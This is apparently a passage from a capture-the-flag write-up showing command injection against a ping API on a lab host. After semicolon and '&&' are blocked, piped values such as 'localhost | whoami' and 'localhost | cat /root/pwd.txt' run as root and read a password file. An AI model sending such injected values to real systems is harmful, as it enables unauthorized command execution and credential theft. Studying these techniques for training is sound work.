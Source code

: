 Response:

	{
	   "message" : "\nPING localhost (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.063 ms\n64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.072 ms\n64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.070 ms\n--- localhost ping statistics ---\n3 packets transmitted, 3 packets received, 0% packet loss\nround-trip min/avg/max/stddev = 0.063/0.068/0.072/0.000 ms\n"
	}


### Let's try some command injection
	
Request:
	
	curl --data "ip=localhost;whoami" \
	http://10.13.37.3/api/isUp

Response:

	{
		"error" : "You cannot use ';', '&&' or '||' here."
	}


### Well what if we just pipe it?

Request:

	curl --data "ip=localhost | whoami" \
	http://10.13.37.3/api/isUp

Response:

	{
		"message" : "root"
	}


### Let's check out our user dir.

Request:

	curl --data "ip=localhost | ls /root" \
	http://10.13.37.3/api/isUp

Response:

	{
		"message" : "pwd.txt"
	}


### That looks like a fun file!

Request:

	curl --data "ip=localhost | cat /root/pwd.txt" \
	http://10.13.37.3/api/isUp
